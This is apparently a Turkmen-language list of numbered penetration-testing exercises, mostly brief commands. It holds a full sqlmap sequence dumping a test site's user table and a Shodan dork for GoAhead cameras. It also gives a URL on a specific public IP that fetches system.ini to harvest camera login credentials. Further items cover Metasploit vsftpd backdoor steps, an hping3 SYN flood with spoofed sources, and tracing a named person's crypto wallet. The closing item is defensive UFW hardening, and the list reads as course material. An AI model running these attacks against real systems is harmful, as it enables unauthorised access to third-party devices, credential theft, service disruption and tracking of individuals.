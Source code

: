  1
Test php.Vuln.com/artists.php?artist=1
Şu salga sql injection etmeli. (kali sql map)	
Brauzer şu salgyny giriz: http://testphp.vulnweb.com/artists.php?artist=1  	
sqlmap --url http://testphp.vulnweb.com/login.php
sqlmap --url http://testphp.vulnweb.com/login.php --crawl 2 -batch --threats 3
sqlmap --url http://testphp.vulnweb.com/login.php --crawl 2 -batch --threads 3
sqlmap --url http://testphp.vulnweb.com/login.php --crawl 2 -batch --threads 3 –dbs
sqlmap --url http://testphp.vulnweb.com/login.php --crawl 2 -batch --threads 3 -D acuart
sqlmap --url http://testphp.vulnweb.com/login.php --crawl 2 -batch --threads 3 -D acuart --tables
sqlmap --url http://testphp.vulnweb.com/login.php --crawl 2 -batch --threads 3 -D acuart -T users --dump
 2
Wireshark-da vpn tunel arkaly geçýän maglumatlaryň gowşaklyklaryny tapmaly
3 
Wireshark ulanyp DNS protokolyny seljermeli gowşaklyklary anyklamaly.
4
Shodan.io IoT gowşaklyklaryny tapyp peýdalanmak(kamera açmaly).
https://vk.com/@wiwosit-ekspluatiruem-uyazvimost-kamer

Shodan-a girmeli we aşakdaky buýrugy ýazmaly...
realm="GoAhead", domain=":81" port:"81"
http://202.215.62.86:81/ yzyna şuny goş: 
system.ini?loginuse&loginpas
http://202.215.62.86:81/system.ini?loginuse&loginpas
Faýl ýüklär, şol ýerden ulanyjy adyny we paroly almaly

5
RAR faýlyň parolyny döwmeli. (LostMyPass programma).
https://www.lostmypass.com/ onlaýn döwmek üçin şu web salgy...
6
NMAP arkaly belli bir IP-nyň açyk portlaryny we gowşaklyklaryny ýüze çykarmaly.
7
Burpsuite ulgamy bilen web sahypanyň gowşaklygyny bruteforce etmeli.
8
Gmail-e gelýän hatlary diňe şu kompýuterde ýatda saklar ýaly etmeli(setting-den düzetmeli).
9
Nmap arkaly port skannirlemek we hyzmat maglumatlary
(nmap -sV -p- 192.168.0.23)

					    10
Shodan.io-de vpn-yň gowşaklyklaryny ýüze çykarmak we seljermek.
http.title:"openvpn", port:"8443"

   11
Metasploit arkaly exploit ulanmak.

   12
OSINT gurallaryny ulanmak arkaly maglumatlary ýygnamak.
(google dorking, Tin Eye Reverse Image Search, FaceCheck Reverse Image search, RevEye reverse Image Search, Whois History)


					  13
SSH açar bilen serwere birikmek.
(paroly aýyryp açar bilen girmeli,  etc/ssh/sshdconfig/digital ocean ssh key)

					  14
Metasploit FTP protokol backdoor goýmaly.

Ädimler
nmap -sV <ip_salgy>
kali linux-da: msfconsole buýrugyny ýazyp metasploit-e giriň
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <ip_salgy>
exploit ýa-da run
  15
Wireshark-da pakedi seljerip gowşaklyklary ýüze çykarmak.

 16
SSH port forwarding (Bir kompýuterden 80-nji portdan çykmaly, beýleki kompýuteriň 80-nji portyndan girmeli).
sudo ssh -L 80:localhost:80 <username>@<remote_host>

17
OSINT. Plany Planyýew kripto kaşilýogyny tapmaly. Tranzaksiýalary görmeli.
Google-da şahsyň adyny ýazsaň çykarýar ýa-da osint framework-dan peýdalanyň.
Blockchain.com Explorer.
Etherscan
1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa  kripto salgy.

18
Syn Flooding paketlerini Wireshark-yň üsti bilen seljermek.
tcp.flags.syn==1 && tcp.flags.ack==0
hping3 -S -p 80 --flood --rand-source <target IP>  cmd kali yaz.

19
Linux servere ssh arkaly diňe bir IP bilen biriger ýaly etmeli, ssh arkaly başga IP-ler bilen birikmez ýaly etmeli. (UFW firewall)
Sudo su
Ufw default deny incoming
Ufw default allow outgoing
sudo ufw allow from <YOUR_IP> to any port 22
“sudo ufw deny 22” (nabelli bolmasa yazmalydyr)
sudo ufw status
sudo ufw enable
